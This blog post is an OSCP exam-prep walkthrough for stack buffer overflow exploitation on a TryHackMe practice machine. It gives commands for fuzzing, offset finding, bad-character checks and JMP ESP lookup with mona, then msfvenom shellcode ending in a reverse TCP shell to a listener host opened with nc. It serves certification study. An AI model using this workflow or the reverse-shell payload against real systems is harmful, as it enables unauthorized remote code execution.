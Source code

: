 ```yaml
---
title: "Easy OSCP Bufferoverflow Preparation"
subtitle: "Easy, simple yet effective and working OSCP Buffer Overflow preparation"
description: "Easy, simple yet effective and working OSCP Buffer Overflow preparation."
excerpt: "Easy, simple yet effective and working OSCP Buffer Overflow preparation."
header-img: /assets/img/oscp_bufferoverflow/feature.png
featured-image: /assets/img/oscp_bufferoverflow/feature.png
featured-image-alt: "OSCP Buffer Overflow"
tags: [windows, oscp, exploit, exploit development, buffer overflow, linux]
---
```


![OSCP Buffer Overflow Preparation](/assets/img/oscp_bufferoverflow/feature.png)

For preparing OSCP Buffer Overflow, you just need a simple script that can fuzz and send buffer. That's it. You don't need to know a lot about python scripting nor complicated stuff. This is the most effective way and time efficient way. If you practice enough, you can beat buffer overflow machine in just 30 minutes. So you can have lots of time for the other 4 machines. If you still need help, feel free to reach out to me on twitter.

Free TryHackMe Room: [TryHackMe/bufferoverflow](https://tryhackme.com/room/bufferoverflowprep)

Thanks to Tib3rius for this awesome tryhackme room. 

Here is the link for all the scripts: [hum4nG0D/OSCP_Bufferoverflow_Prep](https://github.com/hum4nG0D/OSCP_Bufferovrflw_Prep)

I will take overflow1 from THM bufferoverflow room as an example. So fire up the machine and then connect. You will need to do `Immunity > Debug > restart > play` for each step.

```
> xfreerdp /u:admin /p:password /cert:ignore /v:192.168.10.10
  
> git clone https://github.com/hum4nG0D/OSCP_Bufferovrflw_Prep.git
```

<br>

### 01 Fuzzing

```c++
> ./01-fuzz.py
```

Press `Ctrl + C` after the application crushed. Note down the byte number. (Example: Crushed at 2000)

<br>

### 02 Finding Offset

```c++
> msf-pattern_create -l 2000

> ./02-offset.py
```

At this point, I'm assuming you have Mona setup. 

```c++
> !mona findmsp -distance 2000
```

Find EIP normal pattern. (Example: EIP contains normal pattern : 0x42987857 (offset 1876))

<br>

### 03 Controlling EIP

```c++
> ./03-eip.py
```

You should see `424242` for EIP.

<br>

### 04 Finding Bad Characters

Setting up mona working directory:

```c++
> !mona config -set workingfolder c:\mona\%p
```

![Mona Working Directory](/assets/img/oscp_bufferoverflow/workingdir.png)

<br>

Generating byte array:

```c++
> !mona bytearray -b "\x00"
```

![Generating Bytearray - Mona](/assets/img/oscp_bufferoverflow/bytearray.png)

<br>

Running the script:

```c++
> ./04-badchar.py

> !mona compare -f C:\mona\oscp\bytearray.bin -a 0321FF88
```

Generating byte array with bad characters removed. Update the script and run again until you see 'Unmodified' status in mona memory comparison results.

```c++
> !mona bytearray -b "\x00\x0d"

> ./04-badchar.py

> !mona compare -f C:\mona\oscp\bytearray.bin -a 03B2FF88
```

![Unmodified](/assets/img/oscp_bufferoverflow/unmodified.png)

<br>

### 05 Finding a Jump Point

Replace the bad characters with what you find:

```c++
> !mona jmp -r esp -cpb "\x00\x0d"
```

Set the break point by entering the pointer address and pressing `F2`.

![Break point](/assets/img/oscp_bufferoverflow/pointer.png)

<br>

Make sure to edit the script and add the pointer address in reverse order. Then run the script.

```c++
> ./05-pointer.py
```

If the pointer address stop at EIP. You are good to go.

<br>

### 06 Popping Calculator

Again, don't forget to replace with the bad characters that you find:

```c++
> msfvenom -p windows/exec CMD="C:\windows\system32\calc.exe" -b '\x00\x0d' -f c

> ./06-calc.py
```

After successfully popping the calculator app, next step is to get a shell.

```c++
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.11 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0d"

> nc -lvnp 443

> ./07-exploit.py
```

And that's it. You should be able to get a shell now. 